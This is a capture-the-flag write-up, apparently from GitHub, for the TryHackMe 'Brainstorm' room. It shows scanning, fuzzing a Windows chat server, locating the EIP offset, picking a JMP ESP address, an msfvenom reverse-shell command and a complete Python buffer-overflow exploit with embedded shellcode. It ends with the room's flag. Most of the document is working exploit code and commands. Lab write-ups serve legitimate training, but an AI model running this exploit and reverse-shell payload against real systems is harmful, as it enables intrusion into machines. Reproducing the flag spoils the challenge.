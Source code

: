 ###### Reverse engineer a chat program and write a script to exploit a Windows machine.
Room: https://tryhackme.com/room/brainstorm
##

**sudo nmap** -Pn -sS -sV -T5 -vv xx.xx.xx.xxx
```
PORT     STATE SERVICE    REASON          VERSION
21/tcp   open  ftp        syn-ack ttl 127 Microsoft ftpd
3389/tcp open  tcpwrapped syn-ack ttl 127
9999/tcp open  abyss?     syn-ack ttl 127
```
We assume that the app is running on port 9999.  
We can access the FTP anonymously.  

We can find the app's executable file and a dll required for it to run.  
Once we download these, we can set up a 32 bit windows VM to run the app.  
Note: use the **binary** mode to download the files from FTP. May get corrupted with ascii.  

By playing around a bit, we can see that we can crash the app by sending a long enough message.  
Using the following script, we can see that the app crashes at around ~2250-2500 bytes.   

```
#!/usr/bin/env python3

import socket, time, sys

name = "randomname"

timeout = 5
string = "A" * 250

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect(('TargetIP', 9999))
      s.send(bytes(name, "latin-1"))
      s.recv(1024)
      print("{} bytes".format(len(string)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print(" crashed @ {} bytes".format(len(string)))
    sys.exit(0)
  string += 250 * "A"
  time.sleep(1)
```

**msf-pattern_create -l 2400** and send the output as a message into the app.  
EIP register holds the value **31704330** at the moment of the crash.  

**msf-pattern_offset -l 2400 -q 31704330** returns 2012. That's the offset of the **31704330** sequence in our pattern.  
This means that we can control the Instruction Pointer, since we know that the next 4 bytes after the 2012nd byte will be written directly to EIP.  

**exploit.py - current stage**
```
import socket
import sys

username = b"abcdef"
msg = b"A" * 2012 + b"B"*4

try:
	print("sending ... ")
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('TargetIP',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(msg + b'\r\n')
	s.recv(1024)
	s.close()

except:
	print("a bubuit")
	sys.exit()

```
By running the exploit at the current stage, we can see that the EIP value is indeed 4 B's (or 42424242) in hex.  

Next, we need to find the bad characters in order to be able to exploit this.    
Use the following lines of code to generate a list of characters from x01 to xff.  
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

We can add them into our code in a variable called **badchars**.  
Then, at the last send, we send the badchars with the message.  

On the target machine, in Immunity Debugger, run the following command.  
> !mona bytearray -b "\x00"  

After running the script again, the app should crash as usual.  
However, we can compare our list of badchars with the bytearray generated by mona.  
> !mona compare -f path/to/bytearray.bin -a Addr_Of_ESP_when_app_crashed
  
In this case, we see that the output is **unmodified** which means that there are no bad chars.  
Let's find a jump instruction we can use to go to our payload.  (Make sure the app is crashed)

> !mona jmp -r esp -cpb "\x00"

Pick any address from the ones shown in the output.  
Update the **msg** variable in the exploit to concatenate the jump address written backwards (since it's little endian architecture).  
> msg = b"A" * 2012 + b"\xdf\x14\x50\x62"

Generate a payload using 
**msfvenom** -p windows/shell_reverse_tcp LHOST=AttackingIP LPORT=6666 EXITFUNC=thread -b "\x00" -f c

Create a variable called payload in the script and assign its value to the output of the payload created via msfvenom.  
Finally, add some NOPs (No Operation) to the message. "\x90" * 32 seems to be enough.

**final exploit.py**
```
import socket
import sys

username = b"randomname"
msg = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
payload = (b"\xda\xce\xd9\x74\x24\xf4\x5e\xbf\x50\xf2\x6b\x80\x29\xc9\xb1"
b"\x52\x31\x7e\x17\x83\xee\xfc\x03\x2e\xe1\x89\x75\x32\xed\xcc"
b"\x76\xca\xee\xb0\xff\x2f\xdf\xf0\x64\x24\x70\xc1\xef\x68\x7d"
b"\xaa\xa2\x98\xf6\xde\x6a\xaf\xbf\x55\x4d\x9e\x40\xc5\xad\x81"
b"\xc2\x14\xe2\x61\xfa\xd6\xf7\x60\x3b\x0a\xf5\x30\x94\x40\xa8"
b"\xa4\x91\x1d\x71\x4f\xe9\xb0\xf1\xac\xba\xb3\xd0\x63\xb0\xed"
b"\xf2\x82\x15\x86\xba\x9c\x7a\xa3\x75\x17\x48\x5f\x84\xf1\x80"
b"\xa0\x2b\x3c\x2d\x53\x35\x79\x8a\x8c\x40\x73\xe8\x31\x53\x40"
b"\x92\xed\xd6\x52\x34\x65\x40\xbe\xc4\xaa\x17\x35\xca\x07\x53"
b"\x11\xcf\x96\xb0\x2a\xeb\x13\x37\xfc\x7d\x67\x1c\xd8\x26\x33"
b"\x3d\x79\x83\x92\x42\x99\x6c\x4a\xe7\xd2\x81\x9f\x9a\xb9\xcd"
b"\x6c\x97\x41\x0e\xfb\xa0\x32\x3c\xa4\x1a\xdc\x0c\x2d\x85\x1b"
b"\x72\x04\x71\xb3\x8d\xa7\x82\x9a\x49\xf3\xd2\xb4\x78\x7c\xb9"
b"\x44\x84\xa9\x6e\x14\x2a\x02\xcf\xc4\x8a\xf2\xa7\x0e\x05\x2c"
b"\xd7\x31\xcf\x45\x72\xc8\x98\x63\x8a\xd6\xb1\x1c\x8e\xd6\x5b"
b"\xd7\x07\x30\x31\xf7\x41\xeb\xae\x6e\xc8\x67\x4e\x6e\xc6\x02"
b"\x50\xe4\xe5\xf3\x1f\x0d\x83\xe7\xc8\xfd\xde\x55\x5e\x01\xf5"
b"\xf1\x3c\x90\x92\x01\x4a\x89\x0c\x56\x1b\x7f\x45\x32\xb1\x26"
b"\xff\x20\x48\xbe\x38\xe0\x97\x03\xc6\xe9\x5a\x3f\xec\xf9\xa2"
b"\xc0\xa8\xad\x7a\x97\x66\x1b\x3d\x41\xc9\xf5\x97\x3e\x83\x91"
b"\x6e\x0d\x14\xe7\x6e\x58\xe2\x07\xde\x35\xb3\x38\xef\xd1\x33"
b"\x41\x0d\x42\xbb\x98\x95\x62\x5e\x08\xe0\x0a\xc7\xd9\x49\x57"
b"\xf8\x34\x8d\x6e\x7b\xbc\x6e\x95\x63\xb5\x6b\xd1\x23\x26\x06"
b"\x4a\xc6\x48\xb5\x6b\xc3")
try:
	print("sending ... ")
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('AttackerIP',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(msg + payload + b'\r\n')
	s.recv(1024)
	s.close()

except:
	print("a bubuit")
	sys.exit()
```

Start a listener. Run the script.  
Get a reverse shell & the flag.  

Flag is in **root.txt**, 5b1001de5a44eca47eee71e7942a8f8a. **[1]**.  
